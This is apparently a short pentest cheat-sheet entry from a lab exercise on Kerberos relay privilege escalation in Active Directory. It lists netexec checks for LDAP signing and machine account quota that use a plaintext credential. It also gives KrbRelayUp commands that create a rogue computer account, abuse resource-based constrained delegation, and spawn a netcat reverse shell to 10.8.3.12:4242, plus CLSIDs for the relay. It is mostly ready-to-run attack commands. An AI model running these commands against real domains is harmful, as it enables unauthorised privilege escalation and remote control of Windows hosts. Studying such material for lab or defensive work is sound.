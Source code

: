 - Tool :

- Check if exploitable : 
```sh
netexec ldap brunodc.bruno.vl -u "svc_scan" -p "Sunshine1" -M ldap-checker
# LDAP Signing NOT Enforced!

netexec ldap brunodc.bruno.vl -u "svc_scan" -p "Sunshine1" -M maq
#MachineAccountQuota: 10
```

- Exploit with a tool : 
```powershell
.\KrbRelayUp.exe relay brunodc.bruno.vl -CreateNewComputerAccount -ComputerName pwned$ -ComputerPassword P@ssword1234 -cls <CLS>
```

```powershell
./KrbRelayUp spawn -m rbcd --DomainController brunodc.bruno.vl -cn pwned$ -cp P@ssword1234 --sc "C:\Users\svc_scan\Documents\nc.exe 10.8.3.12 4242 -e cmd"
```

- Find a CLSID for a specific OS (as admin on a comparable machine to your target):
https://github.com/tyranid/oleviewdotnet
```sh
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid

Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' 
```

**CLSIDs** (confirmed working on Server 2019/2022 with ADCS installed):

- c980e4c2-c178-4572-935d-a8a429884806
- 90f18417-f0f1-484e-9d3c-59dceee5dbd8
- 03ca98d6-ff5d-49b8-abc6-03dd84127020
- d99e6e73-fc88-11d0-b498-00a0c90312f3 (certsrv.exe)
- 42cbfaa7-a4a7-47bb-b422-bd10e9d02700
- 000c101c-0000-0000-c000-000000000046
- 1b48339c-d15e-45f3-ad55-a851cb66be6b
- 49e6370b-ab71-40ab-92f4-b009593e4518
- 50d185b9-fff3-4656-92c7-e4018da4361d
- 3c6859ce-230b-48a4-be6c-932c0c202048 (trusted installer service)


- Ressource: 
https://vulndev.io/cheats-windows/
